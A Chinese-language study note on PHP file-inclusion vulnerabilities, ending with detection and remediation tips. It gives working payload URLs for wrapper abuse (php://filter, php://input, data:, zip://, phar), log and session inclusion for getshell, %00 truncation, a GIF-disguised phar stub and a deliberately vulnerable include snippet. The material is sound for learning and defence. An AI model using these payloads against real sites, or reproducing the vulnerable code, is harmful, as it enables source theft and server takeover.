

# 文件包含

### php常见文件包含函数

```
include                                                        
include_once() 
当重复调用同一个文件时，程序只调用依次                                                     
如果包含的文件不存在，页面会提示一个警告，代码继续往下执行

require()                                                 
require_once()  
当重复调用同一个文件时，程序只调用依次                                                     
如果包含的文件不存在，页面会提示一个fatal error，代码停止执行
```

### 危害:

```
1、配合文件上传漏洞GetShell
2、可以执行任意脚本代码(php://input)（即使没有文件上传也能执行脚本代码）
3、网站源码文件以及配置文件泄露 (php://filter/read=convert.base64-encode/resource=bihuo.php)（及时没有文件上传也能读取）
4、远程包含GetShell 
5、控制整个网站甚至是服务器
```

### 文件包含分类

#### 本地文件包含

#### 远程文件包含

​		**条件:**

```
php.ini 中的配置选项                 
allow_url_fopen=On                       
allow_url_include=On
```

​		**注意事项:**

```
针对远程文件包含，如果包含的文件后缀被限制，可以使 ?和%23（#）进行截断
需要php版本<5.3.4
同时magic_qutoes_gpc = off
```

​		**使用方式:**

```
http://www.localhost.com/diy/fileinclude/reMouteInclude.php?page=http://www.localhost.com/test/p233.txt%23
http://www.localhost.com/diy/fileinclude/reMouteInclude.php?page=http://www.localhost.com/test/p233.txt?
```
### 文件包含漏洞利用方式

```
结合文件上传，通过文件包含上传的图片马getshell
读取网站的配置文件内容

下面两种方式比较常见
包含日志文件getshell
包含session文件getshell
```

#### 日志包含

		条件:

```
1、找到一个可控的文件包含点                       
2、找到服务器的日志文件存放位置
3、在日志文件插入PHP代码
4、包含日志文件
eg：apache访问日志开启           CustomLog "logs/access.log" common
直接通过通过包含访问日志文件getshell
```

		使用方式:

```
一般是get请求会存放到服务器日志文件中 
get请求url中添加一句话
包含服务器日志文件 
http://www.localhost.com/diy/fileinclude/logInclude.php?page=C:/phpStudy/Apache/logs/access.log
```

#### Session包含

		利用条件:

```
1、session的存储位置可以获取。
2、通过phpinfo的信息可以获取到session的存储位置。
3、通过phpinfo的信息，可以获取到session.save_path.
```

#### 文件包含之%00截断(在文件包含限制后缀的时候可以使用)
		用法:

```		
直接包含一个文件使用%00截断的方式 
http://www.localhost.com/diy/fileinclude/jieduanInclude.php?file=./1.txt%00
```
		触发条件:

```
需要 magic_quotes_gpc=off,
PHP小于5.3.4有效
```


		服务器代码

```
<? 
     php @error_reporting(10);
     if(get_magic_quotes_gpc()){                      
          echo 'no';
          die();                        
    } else{                                                         
          echo 'ok'."<br/>";                     
    }                                                 
    $file_name = $_GET['file'].".jpg";               
    echo $file_name."<br/>";                  
    include $file_name ;                                  
?>
```

### 文件包含+伪协议

```
php://filter
php://input
data:text/plain
zip://伪协议
file://伪协议
Phar协议 待定
```

#### php://filter

​		**利用条件**

```
这里只是文件读取                                           
只需要allow_url_fopen=On                             
对allow_url_include不做要求
利用这种方式可以读取网站源码
```

​		**如何利用**

```
将文件中的内容进行base64后输出              
例如:
	http://localhost/diy/fileinclude/includeTest.php?page=php://filter/read=convert.base64-encode/resource=http://192.168.1.12:8095/shell.php
```

#### php://input

​		**利用条件**

```
只需开启 allow_url_include                                                         
对allow_url_fopen不做要求 
```

​		**如何利用**

```
php://input 参数放在get请求文件包含参数对应的值中，具体的执行代码放在post请求体中                                                  例如：
	www.xx.com/include.php?file=php://input                        
	post请求体中存放需要执行的代码
```

#### data:text/plain

​		**利用条件**

```
allow_url_fopen=On          
allow_url_include=On 
```

​		**如何利用**

```
用法1：
	?file=data:text/plain;base64,base64编码后的php代码                                                     
	GET /diy/fileinclude/includeTest.php?page=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== HTTP/1.1                   HTTP/1.1
用法2：
	?file=data:text/plain,<?php 执行内容 ?>                                                                   
	GET /diy/fileinclude/includeTest.php?page=data:text/plain,<?php%20phpinfo();?> 
```

#### zip://伪协议

​		**利用条件**

```
allow_url_fopen=On          
allow_url_include=On 
```

​		**注意事项**

```
1、压缩为zip之后，后缀名称可以更改为jpg等其他后缀,因为只要是用zip协议压缩的格式就行，和文件后缀没有关系 （一定得是zip压缩）
2、使用zip协议，需要将#编码为%23，所需要PHP 的版本> =5.3.0，要是因为版本的问题无法将#编码成%23，可以手动把#改成%23
```

​		**用法：**

```
?file=zip://[压缩文件路径+压缩文件名]#[压缩文件内的子文件名]
```

​		**示例:**

```
page=zip://./1.zip%231.txt
page=zip://C:/phpStudy/WWW/haha/1.zip%231.txt
既可以用绝对路径,也可以用相对路径 
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./1.zip%231.txt
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./1.jpg%231.txt
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./phpinfo.jpg%23phpinfo.jpg
```

#### file://伪协议

​		利用条件:

```
file:// 可以用来访问本地文件系统，且不受allow_url_fopen与allow_url_include的影响。
```

​		用法

```
用法：?file=file://文件绝对路径
file://////////////文件绝对路径 可以使用多个/，只要/数目大于等于2即可
```

​		例子

```
http://www.localhost.com/diy/fileinclude/includeTest.php?page=file://C:/phpStudy/WWW/sqli_lab/upload-labs-master/upload/phpinfo.jpg

http://www.localhost.com/diy/fileinclude/includeTest.php?page=file://C:/phpStudy/WWW/diy/fileinclude/1.txt
```

#### Phar://反序列化

**因为在[phar.c#L618](https://github.com/php/php-src/blob/29b56a878aa22310d645c3266110417e07ebe683/ext/phar/phar.c#L618)处，其调用了 php_var_unserialize，因此可以构造一个特殊的phar包，使得代码能够被反序列化**

##### 需要将php.ini中的phar.readonly选项设置为off,否则无法生成phar文件

##### 特点:不再强制依赖unserialize函数， 一般碰file相关的函数都会触发

```
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

在文件系统函数 (file_get_contents 、 unlink等)参数可控的情况下，配合 phar://伪协议 ，可以不依赖反序列化函数 unserialize() 直接进行反序列化的操作。
```

#### 触发phar反序列化操作的函数(所有文件操作函数)



#### Stud:phar文件标识

```
<?php
Phar::mapPhar();
include 'phar://phar.phar/index.php’;
__HALT_COMPILER();
?>
可以理解为一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，
前面内容不限，
但必须以__HALT_COMPILER();?>来结尾，
否则phar扩展将无法识别这个文件为phar文件。
也就是说如果我们留下这个标志位，构造一个图片或者其他文件，那么可以绕过上传限制，并且被 phar 这函数识别利用。

可以通过添加任意文件头+将phar伪装成其他格式的文件
比如:$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
```

#### Phar://反序列化利用条件

```
1、需要能够控制一个文件上传点
2、知道文件上传的相对路径
3、触发该漏洞的函数 phar协议
4、要有可用的魔术方法作为「跳板」。
5、文件操作函数的参数可控，且:、/、phar 等特殊字符没有被过滤。

具体利用大致步骤为：
		1、生成一个phpar.phar文件(内部需要配置好对应的成员属性，方便触发析构函数进行反序列化时成员变量覆盖)	
		2、上传生成的phar文件，这时文件的后缀不做要求(可以为gif、jpg等后缀)
		3、访问触发反序列化漏洞 例如: ?filename=phar://./upload_file/phar.gif&2=phpinfo();
		
```

### 如何挖掘文件包含漏洞?

```
没有通用的挖掘办法（Google 搜索 upload.php? include...file=...）
特定的CMS，特定的版本可能存在漏洞(include,require)
Web漏洞扫描器扫描，常见的web漏洞扫描器都支持可以检测。
手工挖掘，看参数，filename=xxx,是否可以包含其他文件
```

### 如何修复?

```
PHP中使用open_basedir配置限制访问在指定的区域
文件包含函数处理之前对传入的参数 . / \进行过滤
例如session包含如何修复   ?
如果没有对应的远程文件包含需求，禁止服务器远程文件包含(allow_url_fopen,allow_url_include,off)
包含的参数值，不要用户可控
```

